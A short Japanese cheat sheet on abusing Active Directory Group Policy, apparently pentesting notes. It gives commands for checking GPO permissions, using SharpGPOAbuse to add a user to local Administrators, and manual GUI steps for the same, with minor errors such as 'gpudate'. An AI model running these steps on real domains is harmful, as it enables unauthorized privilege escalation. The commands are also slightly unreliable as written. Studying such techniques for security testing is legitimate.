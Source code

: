 # Group Policiesの悪用

`Group Policies` はActive Directoryの管理機能である。これにより、管理者はコンピューターやユーザーを管理することができる。グループポリシーオブジェクト（GPO）はグループポリシーを構成する。GPOはADオブジェクト（サイト、ドメイン、組織単位（OU））に関連付けられる。

グループ ポリシーには、セキュリティ オプション、レジストリ キー、ソフトウェアのインストール、起動とシャットダウンのスクリプトを含めることができ、ドメイン メンバーは既定で 90 分ごとにグループ ポリシー設定を更新する (ドメイン コントローラーの場合は 5 分ごと)。つまり、グループ ポリシーは、対象のコンピューターで構成された設定を適用する。

## Domain Policy の権限を確認する

#### PowerView

ドメインポリシーを取得する

```
Get-GPO -Name "<Domain Policy>"
```

ドメインの権限を確認する

```
Get-GPPermission -Guid <Domain ID> -TargetType User -TargetName <USERNAME>
```

## 権限を悪用してローカル管理者グループにユーザー追加する

`GpoEditDeleteModifySecurity` という権限を持っているとき [SharpGPOAbuse](https://github.com/byronkg/SharpGPOAbuse.git)というツールを使用してユーザーをローカルの `Administrators Group` に追加することができる。

```
SharpGPOAbuse.exe --AddLocalAdmin --UserAccount <USERNAME> --GPOName "<Domain Policy>"
```

実行に成功したらローカルグループポリシーを更新する

```
gpudate /force
```

追加されているか確認する

```
net localgroup Administrators
net user <USERNAME>
```

## ローカル管理者グループにユーザーを手動で追加する

ユーザーを作成する

```
Windows search bar > Group Policy Management Editor > Computer configuration > Preferences > Control Panel Settings > Local Users and Groups > Right click on it > New > Local User > Action: Create > User name:
```

ユーザーをローカル管理者グループに追加する

```
Windows search bar > Group Policy Management Editor > Computer configuration > Preferences > Control Panel Settings > Local Users and Groups > Right click on it > New > Local User > Action: Update > Group name : > Members: Add:
```

